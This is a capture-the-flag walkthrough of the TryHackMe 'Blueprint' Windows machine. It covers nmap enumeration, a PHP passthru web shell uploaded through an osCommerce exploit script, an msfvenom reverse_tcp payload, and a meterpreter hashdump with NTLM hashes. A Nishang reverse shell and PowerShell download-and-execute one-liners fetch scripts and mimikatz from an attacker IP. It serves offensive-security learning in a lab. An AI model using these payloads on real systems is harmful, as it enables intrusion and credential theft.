 
![Screenshot 2023-06-13 132623](https://github.com/CTF-Walkthroughs/blueprint-walkthrough/assets/97861439/ce0abed5-dd03-4179-830f-2e0c881ef500)

# blueprint-walkthrough
This is a CTF walkthrough of the machine blueprint on THM

export IP=10.10.51.155
export myIP=10.13.24.71

**ENUMERATION**

Let's kick things off with a fast nmap scan to get a lay of the land.

`nmap -F $IP`

Nmap scan report for 10.10.85.154
Host is up (0.33s latency).
Not shown: 90 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds

Now we'll do a follow-up scan to get more details about open ports, services, and software versions.

`nmap -p 80,135,443,3306,8080,49152,49153,49154 -sC -sV -A -T4 $IP
`
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 23:20 EDT
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.65% done; ETC: 23:21 (0:00:00 remaining)
Nmap scan report for 10.10.85.154
Host is up (0.25s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc    Microsoft Windows RPC
443/tcp   open  ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
3306/tcp  open  mysql    MariaDB (unauthorized)
8080/tcp  open  http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc    Microsoft Windows RPC
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 027f2be5a1cf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.26 seconds

Next, let's do a bit of directory busting with gobuster and dirb. We discovered a /catalog/install directory that we can use to install the database and create an admin user.

`oscommerce-2.3.4/catalog/install
`
Now we can upload a simple passthrough to allow in-browser command execution. 
**
EXPLOITATION**

Next. let's create a shell.php file with the following contents for our passthru shell:
`<?php passthru($_GET['cmd']); ?>
`
And we can upload it using the exploit from searchsploit:
'python 43191.py -u http://10.10.51.155:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php'

**PROOF OF CONCEPT**

We can test our php passthru shell a simple command like 'whoami'.

![Screenshot 2023-06-14 102452](https://github.com/CTF-Walkthroughs/blueprint-walkthrough/assets/97861439/263c9465-863c-48e6-baa8-d95af23e4a91)

**Using Metasploit to convert RCE to a fully interactive shell**

First let's create a payload.
`
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.24.71 LPORT=7777 -f exe > shell.exe`

`msfconsole`

Now we can let it rip and catch the shell with the web_delivery module.

And BOOM! We have a meterpreter session on our target. We can issue a 'hashdump' command to grab all the user hashes.

![Screenshot 2023-06-14 102722](https://github.com/CTF-Walkthroughs/blueprint-walkthrough/assets/97861439/b6fec541-5e04-4b45-b917-912871d92462)

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter >

**Using Crackstation to quickly crack our hash**
googleplus

**ROOT FLAG**
root.txt
THM{ae--------REDACTED-----------ee}


**OPTIONAL ALTERNATIVE METHOD TO CONVERT TO A SHELL**

Nishang Powershell:
1. download Invoke-PowerShellTcp.ps1

2. modify the script to add the command to the end of the script
`
Invoke-PowerShellTcp -Reverse -IPAddress 10.13.24.71 -Port 80`

3. host an http server on port 80

4. Download the file to the target machine and run it:

'powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/ips88.ps1')'

Now that we have a shell -let's grab the hashed NTLM for user Lab with mimikatz!

download it to my attacker machine and serve it up using python

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/mimikatz.exe')


